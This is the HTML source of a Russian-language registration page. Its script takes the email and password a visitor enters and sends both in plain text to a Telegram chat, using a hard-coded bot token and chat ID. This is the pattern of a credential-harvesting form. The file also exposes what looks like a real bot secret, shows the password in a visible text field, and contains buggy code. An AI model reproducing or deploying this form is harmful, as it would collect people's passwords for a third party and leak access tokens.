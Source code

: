 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form{
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1{
        margin-left: 100px;
      }
      button{
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p>Email</p>
        <input type="text" id="email" name="username" required>
        <br>
        <p>Password</p>
        <input type="text" id="pass" name="email" required>
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        document.getElementById('registrationForm').addEventListener('submit', function(event) {
            event.preventDefault(); 

            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940 
            const message = `Новая регистрация:\nПароль: ${username}\nПочта: ${email}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

           
            fetch(url) 
                .then(response => {
                    if (response.ok) {
                      preventDefault()
                        alert('Данные успешно отправлены в Telegram!');
                    } else {
                        alert('Ошибка при отправке данных.');
                    }
                })
                .catch(error => {
                    console.error('Ошибка:', error);
                    alert('Ошибка при отправке данных.');
                });
        });
    </script>
</body>
</html>
